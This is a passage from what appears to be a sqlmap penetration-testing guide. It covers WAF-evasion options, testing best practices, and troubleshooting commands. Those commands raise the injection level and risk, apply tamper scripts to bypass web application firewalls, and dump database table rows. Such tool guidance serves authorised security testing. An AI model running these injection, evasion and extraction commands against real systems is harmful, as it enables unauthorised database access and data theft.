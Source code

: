 ### 7.3 Advanced Evasion
```bash
# Multiple evasion techniques
sqlmap -r request.txt \
  --delay=2 \
  --random-agent \
  --tamper="space2comment,randomcase,charencode" \
  --level=3 \
  --technique=BT \
  --batch
```

---

## Best Practices & Tips

### ✅ Do's
- Always start with low risk/level settings
- Save and document all successful payloads
- Test one parameter at a time initially
- Use request files instead of URL parameters
- Monitor application logs if possible
- Document all findings systematically

### ❌ Don'ts
- Don't use risk level 3 on production systems
- Don't run aggressive scans during business hours
- Don't ignore rate limiting/WAF detection
- Don't extract unnecessary large datasets
- Don't leave backdoors or shells behind

### 🔧 Troubleshooting Common Issues

```bash
# Issue: No injection detected
Solution: Increase level/risk, try different techniques
sqlmap -r request.txt --level=5 --risk=2 --technique=BEUST --batch

# Issue: WAF blocking requests
Solution: Use evasion techniques
sqlmap -r request.txt --tamper="space2comment,randomcase" --delay=3 --batch

# Issue: Time-based detection slow
Solution: Optimize time-based settings
sqlmap -r request.txt --technique=T --time-sec=5 --timeout=20 --batch

# Issue: Large datasets timing out
Solution: Use conditional/limited extraction
sqlmap -r request.txt -D db -T table --where="id BETWEEN 1 AND 100" --dump --batch
```
